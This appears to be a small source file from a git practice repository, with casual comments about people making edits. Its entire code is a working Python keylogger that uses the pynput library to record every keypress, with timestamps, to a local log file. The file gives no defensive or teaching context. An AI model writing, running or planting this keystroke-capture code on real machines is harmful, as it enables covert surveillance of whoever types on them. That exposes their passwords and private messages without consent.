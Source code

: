 # t2l-git

## Destiny presented today! YEY!
## Antonio made an edit right here

from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "log.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
